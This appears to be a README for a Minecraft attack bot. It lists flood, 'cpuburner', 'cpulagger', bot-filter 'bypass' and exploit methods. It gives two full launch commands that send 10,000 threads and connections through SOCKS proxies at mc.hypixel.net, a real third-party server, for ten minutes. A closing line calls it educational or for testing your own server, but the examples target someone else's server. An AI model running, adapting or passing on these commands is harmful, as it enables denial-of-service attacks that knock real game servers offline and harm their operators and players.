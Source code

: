 ## Website: https://itzapiphub.online/
<p align="center"><img src="https://github.com/nejason57mars/mcbot/blob/main/icon/test.ico" width="150px" height="150px" alt="mcbot"></p>
<h1 align="center">⚠WARNING: to kill botfilter you need a very powerful Dedicated Server or VDS</h1>

## Methods
```💣 Methods:
localhost
flood2
extreme4
flood1
bosshandler
cpuburner1
cpuburner2
cpuburner3
cpulagger
extreme2
test1
extreme1
spigot2
test2
spigot1
cpuburner4
cpuburner5
cpuburner6
ExploitBot
bypass1
RNick
bypass3
bypass2
```

## START in Spanish
```java -jar CIPHER-BOT.jar host=mc.hypixel.net port=25565 protocol=47 exploit=botfucker proxiesFile=proxies.txt srvResolve=false srvResolve2=false threads=10000 timeout=1000 attackTime=600 connections=10000 loopAmount=1 keepAlive=true alwaysResolve=false print=false multi=true removeFailure=false proxiesType=socks socksV4=true```

## START Normal
```java -jar exploitbot.jar host=mc.hypixel.net port=25565 protocol=47 exploit=ExploitBot proxiesFile=proxies.txt srvResolve=false srvResolve2=false threads=10000 timeout=1000 attackTime=600 connections=10000 loopAmount=1 keepAlive=true alwaysResolve=false print=false multi=true removeFailure=false proxiesType=socks socksV4=true```

## WARNING
* Use this script for educational purposes only or to test your server!
